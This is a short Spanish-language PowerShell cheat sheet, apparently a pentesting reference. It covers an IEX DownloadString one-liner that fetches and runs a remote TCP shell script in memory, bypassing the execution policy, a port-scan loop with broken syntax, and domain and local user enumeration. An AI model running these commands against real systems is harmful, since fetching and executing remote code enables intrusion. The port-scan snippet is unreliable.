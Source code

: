 # Powershell

Tags: #Windows #Powershell #Comandos 

Extensiones:
	* .ps1
	* .psm1
	* .psd1

```powershell 
# Cargar un binario en PS desde memoria 

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Invoke-PowershellTCP.ps1')"

Nota: Se coloca 'powershell -c' si no se ejecuta en un entorno de Powershell 
```

```powershell
❯ Import-Module .\Script.ps1       # Importar un modulo para utilizar los submodulos 
```

```powershell
❯ powershell -ep bypass                # Politica que nos permite bypass y poder ejecutar scripts en PS
 	# ep = Ejecutar politicas 
❯ ..\script.ps1                        # Ejecutar el binario en PS
```

## Enumeración

```powershell 
# Escaneo de puertos 
❯ 442..443 | % {try ((new-object Net.Sockets.TcpClient).Connect("google.com",$_)) "Port $_ is open"} catch { # Ignorar errores para puertos cerrados }} 2>$null 
```

```powershell
❯ net user /domain                   # Mirar los usuarios del dominio 
❯ net user                           # Mirar los usuarios locales 
❯ net localgroup administrators      # Muestra los miebros del grupo local de administradores
```